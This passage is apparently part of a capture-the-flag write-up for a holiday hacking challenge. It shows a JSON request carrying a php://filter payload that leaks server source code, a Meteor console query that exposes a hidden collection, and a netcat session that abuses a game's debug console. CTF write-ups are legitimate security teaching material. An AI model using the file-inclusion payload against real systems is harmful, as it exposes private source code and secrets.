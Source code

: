 To attack the exception server we start in the same way as with the debug server by looking at the usage in the code and crafting a valid request. From this we determine that there are two operations: "WriteCrashDump" and "ReadCrashDump". The latter can be used together with php://filter to extract the exception.php file. Sending the following data in the request gives us back the code base64 encoded.

{% highlight json %}
{
    "operation": "ReadCrashDump",
    "data": {
        "crashdump": "php://filter/convert.base64-encode/resource=../exception"
    }
}
{% endhighlight %}

By base64 decoding the response we can read the code including a comment as follows:

> \# Audio file from Discombobulator in webroot: discombobulated-audio-6-  
> XyzE3N9YqKNH.mp3  

Thus the file can be downloaded from "http://ex.northpolewonderland.com/discombobulatedaudio-6-XyzE3N9YqKNH.mp3"

The ad server is very easily attacked with the "Meteor Miner" Tampermonkey script: https://github.com/nidem/MeteorMiner. The script shows that there is a collection called "HomeQuotes". By calling "HomeQuotes.find().fetch()" in the console, we get a list of all quotes including a hidden one:

{% highlight json %}
{
    _id: "zPR5TpxB5mcAH3pYk",
    audio: "/ofdAR4UYRaeNxMg/discombobulatedaudio5.mp3",
    hidden: true,
    index: 4,
    quote: "Just Ad It!"
}
{% endhighlight %}

The file can then be downloaded from "http://ads.northpolewonderland.com/ofdAR4UYRaeNxMg/discombobulatedaudio5.mp3"

The final server, the dungeon server can be exploited by reverse engineering the dungeon binary given by one of the elves. There we can find that there is a command called "GDT" which opens up an admin console. By Googling some strings in the program you can discover that the game is called "Zork". By following a walkthrough it is possible to find a room with a painting which can be taken. The GDT command can then be used to change the current location of the player. Since this seems to be a modified version of the game it is likely that any added rooms have been appended to the end of the location list. Thus setting the player location to the highest possible seems plausible. Trial and error reveals that 192 is the highest ID for a location which corresponds to the north pole. By walking inside and giving the painting to the elf, the game is completed and an e-mail address is shown. Sending an e-mail to this address yields a response with the MP3 file attached. Shortening the process yields the following game transcript:

{% highlight shell %}
$ nc dungeon.northpolewonderland.com 11111
Welcome to Dungeon. This version created 11-MAR-78.
You are in an open field west of a big white house with a boarded
front door.
There is a small wrapped mailbox here.
$ gdt
GDT>ah
Old= 2 New= 105
GDT>ex
$ take painting
Taken.
$ gdt
GDT>ah
Old= 105 New= 192
GDT>ex